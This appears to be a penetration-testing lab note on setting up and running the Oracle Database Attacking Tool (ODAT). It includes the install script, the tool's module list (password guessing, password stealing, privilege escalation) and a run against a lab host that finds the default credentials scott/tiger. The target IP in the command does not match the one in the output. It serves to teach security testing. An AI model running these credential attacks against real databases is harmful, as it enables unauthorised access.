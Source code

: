### Oracle Database Attacking Tool setup.sh
Oracle tools setup script

```sh
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
git submodule update
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
export LD_LIBRARY_PATH=instantclient_21_12:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor pycrypto passlib python-libnmap
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
```
Check if installation was succesful:
```sh
/odat.py -h

usage: odat.py [-h] [--version]
               {all,tnscmd,tnspoison,sidguesser,snguesser,passwordguesser,utlhttp,httpuritype,utltcp,ctxsys,externaltable,dbmsxslprocessor,dbmsadvisor,utlfile,dbmsscheduler,java,passwordstealer,oradbg,dbmslob,stealremotepwds,userlikepwd,smb,privesc,cve,search,unwrapper,clean}
               ...

            _  __   _  ___ 
           / \|  \ / \|_ _|
          ( o ) o ) o || | 
           \_/|__/|_n_||_| 
-------------------------------------------
  _        __           _           ___ 
 / \      |  \         / \         |_ _|
( o )       o )         o |         | | 
 \_/racle |__/atabase |_n_|ttacking |_|ool 
-------------------------------------------

By Quentin Hardy (quentin.hardy@protonmail.com or quentin.hardy@bt.com)
...SNIP...
```

In the following example, we find valid credentials for the user scott and his password tiger.
```sh
./odat.py all -s 10.129.119.183

[+] Checking if target 10.129.204.235:1521 is well configured for a connection...
[+] According to a test, the TNS listener 10.129.204.235:1521 is well configured. Continue...

...SNIP...

[!] Notice: 'mdsys' account is locked, so skipping this username for password           #####################| ETA:  00:01:16 
[!] Notice: 'oracle_ocm' account is locked, so skipping this username for password       #####################| ETA:  00:01:05 
[!] Notice: 'outln' account is locked, so skipping this username for password           #####################| ETA:  00:00:59
[+] Valid credentials found: scott/tiger. Continue...
```